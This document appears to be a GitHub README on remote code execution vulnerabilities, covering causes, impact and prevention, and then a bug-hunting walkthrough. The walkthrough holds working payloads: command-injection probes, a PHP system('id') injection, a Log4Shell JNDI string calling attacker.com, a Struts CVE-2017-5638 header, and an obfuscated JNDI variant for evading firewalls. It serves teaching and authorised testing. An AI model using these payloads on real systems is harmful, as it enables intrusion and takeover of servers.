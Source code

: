 # RCE-vulnerabilities
RCE (Remote Code Execution) vulnerability is a critical security flaw that allows an attacker to execute arbitrary code on a target system or server remotely. This type of vulnerability arises when an application improperly handles user inputs, allowing an attacker to inject and execute malicious code within the application's runtime environment.

### How RCE Vulnerabilities Occur
RCE vulnerabilities can result from several issues, including:
1. **Input Validation Flaws**: When an application fails to properly sanitize or validate user inputs, attackers can inject malicious payloads.
2. **Code Injection**: Exploiting areas where user input is directly executed as code, such as dynamic function calls, eval statements, or database queries.
3. **Deserialization Vulnerabilities**: When untrusted serialized data is deserialized without proper validation, attackers can manipulate the serialized data to execute arbitrary code.
4. **Command Injection**: Injecting malicious shell commands through vulnerable system calls or functions.
5. **Insecure Libraries or Dependencies**: Using outdated or vulnerable libraries that enable attackers to exploit an RCE flaw.

### Potential Impact of RCE
The consequences of an RCE vulnerability can be severe, as it provides attackers with complete control over the affected system. Possible impacts include:
- Data theft or manipulation
- Installation of malware, such as ransomware
- Escalation of privileges
- Pivoting to other systems in the network
- System downtime or destruction

### Prevention and Mitigation
To prevent and mitigate RCE vulnerabilities:
1. **Input Validation and Sanitization**:
   - Use strong input validation techniques.
   - Sanitize inputs to remove potentially malicious characters or payloads.
2. **Use Secure Coding Practices**:
   - Avoid dynamic code execution whenever possible.
   - Replace unsafe functions like `eval` with safer alternatives.
3. **Implement Strong Authentication and Access Controls**:
   - Restrict access to critical systems and resources.
   - Use least privilege principles.
4. **Update and Patch Regularly**:
   - Keep software and libraries up to date to address known vulnerabilities.
5. **Use Security Tools**:
   - Deploy Web Application Firewalls (WAFs) to filter malicious traffic.
   - Utilize code scanning tools to identify vulnerabilities in the development phase.
6. **Conduct Regular Security Audits**:
   - Perform penetration testing and code reviews to identify and fix vulnerabilities.

By addressing RCE vulnerabilities proactively, organizations can significantly reduce the risk of remote code execution attacks.

Here’s how professionals approach discovering RCE vulnerabilities responsibly:

---

### 1. **Understand the Target**
- **Reconnaissance**: Start by gathering info about the website—its tech stack (e.g., Apache, Nginx, PHP, Java), frameworks (e.g., WordPress, Django), and dependencies. Tools like Wappalyzer or manual inspection of HTTP headers can reveal this.
- **Scope**: Identify what’s testable (e.g., input fields, APIs, file uploads) where code might be executed.

### 2. **Look for Common Entry Points**
RCE often stems from mishandling user input. Focus on:
- **URL Parameters**: `example.com?page=malicious_code`
- **Form Inputs**: Text fields, search bars, or login forms.
- **File Uploads**: Check if uploaded files (e.g., images, PDFs) are executed rather than just stored.
- **HTTP Headers**: Some apps process headers like `User-Agent` unsafely.
- **APIs**: Test JSON/XML inputs for injection points.

### 3. **Test for Input Validation Flaws**
- **Command Injection**: If the site interacts with a server’s shell, try injecting system commands. For example, appending `; ls` or `&& dir` to an input might reveal if it’s executed (e.g., `ping 127.0.0.1; ls`).
- **Code Injection**: If it’s a PHP site, test for `eval()` or `system()` misuse by injecting `<?php system('id'); ?>` into a parameter.
- **Deserialization**: For Java-based sites, craft payloads (e.g., using ysoserial) to exploit insecure deserialization, like in Apache Struts or Log4j.

### 4. **Exploit Known Vulnerabilities**
- **Outdated Software**: Use tools like `nmap` or `whatweb` to detect versions of web servers, CMSes (e.g., WordPress), or libraries. Cross-reference with CVE databases (e.g., NIST NVD) for known RCE exploits.
- **Specific Exploits**: For example, test for Log4Shell by sending `${jndi:ldap://attacker.com/a}` to a loggable field if Log4j is suspected.

### 5. **Use Automated Tools (With Caution)**
- **Burp Suite**: Capture and manipulate HTTP requests to inject payloads and observe responses.
- **OWASP ZAP**: Scan for vulnerabilities, though it’s less specific to RCE.
- **sqlmap**: While primarily for SQL injection, it can sometimes chain into RCE if the database allows command execution.
- **Custom Scripts**: Write Python scripts with libraries like `requests` to fuzz inputs with RCE payloads (e.g., `; whoami`).

### 6. **Analyze Responses**
- **Direct Output**: If `id` returns `uid=33(www-data)`, you’ve got RCE.
- **Time Delays**: Use `sleep(10)` or `ping -c 10 127.0.0.1` to detect blind execution via timing differences.
- **DNS Requests**: Send a payload like `ping attacker-controlled-domain.com` and check DNS logs to confirm execution.

### 7. **Advanced Techniques**
- **Reverse Engineering**: If you can access server-side code (e.g., via a misconfigured endpoint), look for functions like `exec()`, `eval()`, or `Runtime.getRuntime().exec()` in Java.
- **Chaining Bugs**: Combine lesser flaws (e.g., file upload + local file inclusion) to achieve RCE. Example: Upload a malicious `.php` file, then trigger it via `include()`.

---

### Real-World Example Workflow
Imagine testing `example.com` (with permission):
1. Discover it runs an old Apache Struts version via HTTP headers.
2. Research CVE-2017-5638 (Struts RCE).
3. Craft a malicious `Content-Type` header: `Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].getWriter().print("test")}`.
4. Send it with Burp Suite. If "test" appears in the response, it’s vulnerable to RCE.

---

### Challenges and Tips
- **Obfuscation**: Modern sites use WAFs (e.g., Cloudflare) to block obvious payloads. Encode or split payloads (e.g., `${jndi:${lower:l}${lower:d}a${lower:p}://...}`).
- **False Positives**: A delay might not mean RCE—verify with multiple tests.
- **Ethics**: Report findings to the site owner immediately if part of a legal test.

### Tools Recap
- **Recon**: Wappalyzer, Shodan, `curl`
- **Testing**: Burp Suite, OWASP ZAP, `netcat`
- **Exploitation**: Metasploit (for known CVEs), custom scripts

---

This is a high-level overview of how pros hunt for RCEs. It requires technical skill, patience, and a legal framework (e.g., bug bounties on HackerOne or Bugcrowd). Want me to expand on a specific technique, like crafting payloads or bypassing WAFs? Just let me know!








